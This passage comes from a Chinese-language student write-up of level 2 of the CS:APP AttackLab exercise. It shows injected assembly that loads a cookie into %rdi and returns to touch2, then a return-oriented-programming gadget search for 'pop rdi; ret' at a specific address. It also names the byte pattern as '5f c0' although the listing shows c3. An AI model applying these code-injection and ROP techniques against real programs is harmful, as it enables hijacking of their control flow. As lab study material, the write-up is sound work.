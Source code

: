 **案例：**

![img](实验3：AttackLab.assets/v2-9ec2a26487ce7a31db7602300be9ff20_b.jpg)



首先明确lever2的任务，

1. 将%rdi设置为cookie
2. 执行touch2

符合要求的汇编代码如下

```assembly
pushq  $0x4017ec
mov    $0x59b997fa,%edi
ret
```

由于源汇编代码并不存在`pushq  $0x4017ec`和`mov    $0x59b997fa,%edi`所以只能通过工具构造。

**整个流程是遇到ret，进行弹栈，找到pop位置，将地址存入rdi寄存器，执行c3弹栈，跳转到下一个地址操作。然后用mov将寄存器内容存入rdi，执行c3弹栈跳转到touch2起始位置。**

#### **方案1：**直接弹给rdi

```assembly
pop rdi
ret #touch2
```

这个方案比较简单，找到`5f c0`即可，查找源码在这一段找到了相关字节码。

```assembly
  402b18:	41 5f                	pop    %r15
  402b1a:	c3                   	retq  
```

地址为`0x402b19`

最终栈帧结构如下图
